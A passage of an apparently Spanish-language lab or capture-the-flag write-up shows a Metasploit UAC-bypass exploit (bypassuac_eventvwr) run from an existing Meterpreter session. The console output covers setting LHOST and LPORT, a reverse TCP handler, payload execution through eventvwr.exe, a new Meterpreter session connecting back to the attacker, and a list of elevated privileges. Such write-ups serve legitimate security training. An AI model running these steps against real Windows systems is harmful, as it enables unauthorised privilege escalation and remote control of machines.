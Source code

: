```bash
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.100.210  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



View the full module info with the info, or info -d command.

msf6 exploit(windows/local/bypassuac_eventvwr) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/bypassuac_eventvwr) > set LHOST 10.8.17.92
LHOST => 10.8.17.92
```

En este exploit nos pedirá el numero de la sesión de meterpreter, en este caso `1`, y la IP de nuestra máquina, en este caso `10.8.17.92`.

Importante si el puerto de escucha que anteriormente hemos configurado en el exploit no es el que está en uso, debemos cambiarlo.

```bash
msf6 exploit(windows/local/bypassuac_eventvwr) > set LPORT 9000
LPORT => 9000
msf6 exploit(windows/local/bypassuac_eventvwr) > run
[*] Started reverse TCP handler on 10.8.17.92:9000 
[*] UAC is Enabled, checking level...
[+] Part of Administrators group! Continuing...
[+] UAC is set to Default
[+] BypassUAC can bypass this setting, continuing...
[*] Configuring payload and stager registry keys ...
[*] Executing payload: C:\Windows\SysWOW64\eventvwr.exe
[+] eventvwr.exe executed successfully, waiting 10 seconds for the payload to execute.
[*] Sending stage (177734 bytes) to 10.10.19.146
[*] Meterpreter session 2 opened (10.8.17.92:9000 -> 10.10.19.146:49256) at 2025-01-29 17:57:55 +0100
[*] Cleaning up registry keys ...

meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeBackupPrivilege
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeCreatePagefilePrivilege
SeCreateSymbolicLinkPrivilege
SeDebugPrivilege
SeImpersonatePrivilege
SeIncreaseBasePriorityPrivilege
SeIncreaseQuotaPrivilege
SeIncreaseWorkingSetPrivilege
```